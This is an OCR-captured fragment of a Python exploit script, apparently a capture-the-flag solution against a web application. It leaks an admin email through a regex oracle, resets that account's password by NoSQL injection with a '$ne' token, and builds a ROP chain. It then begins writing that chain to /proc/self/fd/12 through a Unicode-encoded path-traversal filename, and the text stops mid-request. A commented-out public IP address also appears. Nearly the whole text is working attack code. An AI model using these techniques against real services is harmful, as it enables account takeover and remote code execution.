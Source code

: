 ```python
            POP_RDI,
            argv[0],
            POP_RSI,
            argv_arr,
            POP_RDX,
            0,
            SYSCALL,
        ])

        return content

URL = "http://127.0.0.1:3000"
# URL = "http://43.203.131.177:3000/"

# make qwer credential first
requests.post(URL + '/api/auth/register', json={'username':'qwer', 'email':'qwer@test.com', 'password':'qwer'})

# leak guide email
words = "abcdefghijklmnopqrstuvwxyz0123456789"
guide_email = "guide_"
email_prefix = "guide\\_"
for i in tqdm.tqdm(range(11)):
    for s in words:
        r1 = requests.post(URL+'/api/auth/register', json={'username':'qwer','email':f'{email_prefix}{s}.*@admin\\.com', 'password':'qwer'})
        if "User already exists" in r1.text:
            guide_email += s
            email_prefix+=s
            break
guide_email += "@admin.com"
print(f"guide_email : {guide_email}")

# change guide password
new_password = 'hihi'
requests.post(URL + '/api/auth/reset', json={'email':guide_email, 'change':True, 'token':{'$ne':'asdf'},'password':new_password})

# make question & answer
session = requests.Session()
session.post(URL + '/api/auth/login', json={'email':guide_email, 'password':new_password})
session.post(URL + '/api/questions', json={'text':'test', 'category':'General'})
r1 = session.get(URL + '/api/questions')
data = r1.json()
r2 = session.post(URL + '/api/answers', json={'text':'asdf','questionId':data[0]['_id']})
data = r2.json()
answer_id = data['uuid']
print(answer_id)

# make rop chain
file_content = make_rop_chain()

# write exploit.bin at /proc/self/fd/{fdnum}
file_name_raw = "/proc/self/fd/12"
filename = "..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯..丯" + file_name_raw.replace("/", "丯")

filename_rfc5987 = f"UTF-8''{quote(filename)}"
boundary = "----WebKitFormBoundaryWzBpweyhtRcd9i8R"
dash_boundary = f"--{boundary}"

body = bytearray()

body += (
```